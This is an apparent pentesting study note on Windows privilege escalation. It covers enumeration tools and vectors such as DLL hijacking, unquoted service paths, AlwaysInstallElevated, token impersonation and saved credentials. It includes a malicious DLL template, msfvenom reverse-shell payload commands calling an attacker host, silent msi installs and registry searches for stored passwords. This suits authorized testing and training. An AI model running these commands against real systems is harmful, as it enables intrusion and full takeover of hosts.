 ```yaml
---
layout: post
title: Basic Windows privilege escalation
date: 2025-02-21
description: A collection of basic techiques, procedures and tools for performing privilege escalation on windows.
tags: theory windows privesc 
categories: pentesting
featured: true
toc:
  sidebar: left
---
```


## Resources
checklist: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md
info on vectors: https://github.com/sagishahar/lpeworkshop

## useful scripts
**winPEAS**
https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS (is detected by windows defender, best write output to file (winpeas > outfile.txt))
**PowerUp**
https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc (run with `Invoke-AllChecks` to check everything)
**windows exploit suggester**
old version: https://github.com/AonCyberLabs/Windows-Exploit-Suggester (use for old windows versions)
new version: https://github.com/bitsadmin/wesng
1. install on attacker
2. run `windows-exploit-suggester.py –update` on attacker
3. run `systeminfo`  on target and save output to file (`> output.txt`), transfer file to attacker
4. run exploit suggester, eg.`windows-exploit-suggester.py --database 2021-09-21-mssb.xls --systeminfo sysinfo_output.txt`
**meterpreter**
if you have [[tools/Metasploit framework/meterpreter]] shell
use `multi/recon/local_exploit_suggester`
**Seatbelt**
https://github.com/GhostPack/Seatbelt
**BeRoot**
https://github.com/AlessandroZ/BeRoot

# Windows user accounts
**Administrator (local):** This is the user with the most privileges.
**Standard (local):** These users can access the computer but can only perform limited tasks. Typically these users can not make permanent or essential changes to the system. 
**Guest:** This account gives access to the system but is not defined as a user. 
**Standard (domain):** Active Directory allows organizations to manage user accounts. A standard domain account may have local administrator privileges. 
**Administrator (domain):** Could be considered as the most privileged user. It can edit, create, and delete other users throughout the organization's domain. 

**SYSTEM account:** you cant log in, but it is used by services installed on the machine

## method
1. enumerate current user and its privileges [[training/thm/03_Privilige escalation/Windows/manual enum]]
2. if possible use enumeration script (winPEAS or PowerUp.ps1)
3. go by checklist

# Vectors
## DLL hijacking
### DLL search order
If **SafeDllSearchMode** is enabled:
1.  directory from which the application loaded.
2.  The system directory. Use the [GetSystemDirectory](https://docs.microsoft.com/en-us/windows/desktop/api/sysinfoapi/nf-sysinfoapi-getsystemdirectorya) to get the path of this directory.
3.  The 16-bit system directory.
4.  The Windows directory. [GetWindowsDirectory](https://docs.microsoft.com/en-us/windows/desktop/api/sysinfoapi/nf-sysinfoapi-getwindowsdirectorya) to get the path
5.  The current directory.
6.  PATH directories. Note that this does not include the per-application path specified by the **App Paths** registry key. The **App Paths** key is not used when computing the DLL search path.

if **SafeDllSearchMode** is disabled:
1. dir where application is loaded
2. current directory
3. system directory
4. 16-bit system directory
5. windows directory
6. PATH directories

for DLL hijack insert malicous DLL in higher position than the legitimate is in
vulnerabilities can only be discorvered with admin privs -> you need a test system

malicious DLL template:
```c++
#include <windows.h>

BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved)

{

if (dwReason == DLL_PROCESS_ATTACH) {
system("cmd.exe /k whoami > C:\\Temp\\dll.txt");
ExitProcess(0);
}
return TRUE;

}
``` 
compile with mingw: `x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll`
`sc stop dllsvc & sc start dllsvc`

## unquoted service path
requirements:
1.  Being able to write to a folder on the path
2.  Being able to restart the service

if the path of a service is not provided as absolute path written in quotes, windows will start searching for the binary to run: it will search in every directory contained by the path, starting at the lowest one
-> put malicious .exe file in a directory where windows finds it before the legitimate one

1. find service with unquoted path
`wmic service get name,displayname,pathname,startmode`: to list services, search for unquoted path
2. check privs on path folders: eg. `.\accesschk64.exe /accepteula -uwdq "C:\Program Files\"`
3. generate payload, eg with msfvenom `msfvenom -p windows/x64/shell_reverse_tcp LHOST=[IP] LPORT=[port] -f exe > [executable_name].exe`
4. start/restart service `sc start [service name]`

## Token impersonation
services make requests to higher priviliged service accounts -> man in the middle attack to get a security token to athenticate on the service account
**eg. Hot Potato (alread patched):**
Step 1: The target system uses the Web Proxy Auto-Discovery (WPAD) protocol to locate its update server.  
Step 2: This request is intercepted by the exploit, which sends a response redirecting the target system to a port on 127.0.0.1.  
Step 3: The target system will ask for a proxy configuration file (wpad.dat).  
Step 4: A malicious wpad.dat file is sent to the target.
Step 5: The target system tries to connect to the proxy (now set by the malicious wpad.dat file sent on the previous step).  
Step 6: The exploit will ask the target system to perform an NTLM authentication.  
Step 7: The target system sends an NTLM handshake.  
Step 8: The handshake received is relayed to the SMB service with a request to create a process. This process will have the privilege level of the service targeted, which would typically be "NT AUTHORITY\SYSTEM".

## scheduled tasks
same method as with cronjobs on linux
`schtasks`: query scheduled tasks
eg. `schtasks /query /fo LIST /v`

## Driver
are not updated very often, exploits may be available online
`driverquery`: list installed drivers

## AlwaysInstallElevated
if windows installer files (.msi) always run with elevated privileges, we can create a malicious .msi file and run it on the target system
prerequisites: the following registry options have to be set:
`reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer`  
`reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer`
1. generate payload, eg using [[tools/Metasploit framework/msfvenom]]: `msfvenom -p windows/x64/shell_reverse_tcp LHOST=[IP] LPORT=[PORT] -f msi -o malicious.msi`
2. transfer payload to target
3. start installer: `C:\Users\user\Desktop>msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi`

## Saved Credentials
list credentials that are saved on the system: `cmdkey /list`
try saved credentials: `runas /savecred /user:admin reverse_shell.exe`
query registry keys possibly  containing passwords: `reg query HKLM /f password /t REG_SZ /s`  or `reg query HKCU /f password /t REG_SZ /s`

## local service connections
some services may have network connections to localhost. since they are not cnnected to the outside, they often have weak security configs.
any port that is listening, and not detectable from an outside scan may be vulnerable
`netstat -ano`: list active internal network connection
	`-a`: all active connections and listening ports
	`-n`: no name resolution
	`-o`: show corresponding process id

## installed software
check installed software and search for exploits